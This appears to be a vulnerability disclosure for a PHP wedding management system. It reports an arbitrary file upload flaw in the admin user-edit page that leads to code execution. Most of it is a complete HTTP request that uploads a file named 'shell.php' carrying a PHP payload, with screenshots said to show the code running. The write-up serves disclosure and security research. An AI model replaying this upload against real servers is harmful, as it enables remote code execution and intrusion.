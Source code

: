 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/users_edit.php?id=8

Loophole location：The editing function of "User Management" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_edit.php" file.

Click "Edit User" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/users_edit.php?id=8 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/users_edit.php?id=8
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11784258372980
Content-Length: 1069

-----------------------------11784258372980
Content-Disposition: form-data; name="submit"


-----------------------------11784258372980
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------11784258372980
Content-Disposition: form-data; name="firstname"

Pharell
-----------------------------11784258372980
Content-Disposition: form-data; name="lastname"

Colin
-----------------------------11784258372980
Content-Disposition: form-data; name="email"

pharell@mail.com
-----------------------------11784258372980
Content-Disposition: form-data; name="username"

pcolin
-----------------------------11784258372980
Content-Disposition: form-data; name="gender"

m
-----------------------------11784258372980
Content-Disposition: form-data; name="address"

115 Test Street
-----------------------------11784258372980
Content-Disposition: form-data; name="designation"

1
-----------------------------11784258372980--
```

The files will be uploaded to this directory \admin\upload\users\

![image](https://user-images.githubusercontent.com/54017627/167980507-58bdf106-5b54-4ed9-96fd-245017d07f15.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167980470-d13e8217-4197-4074-8840-7f5146f33aa9.png)
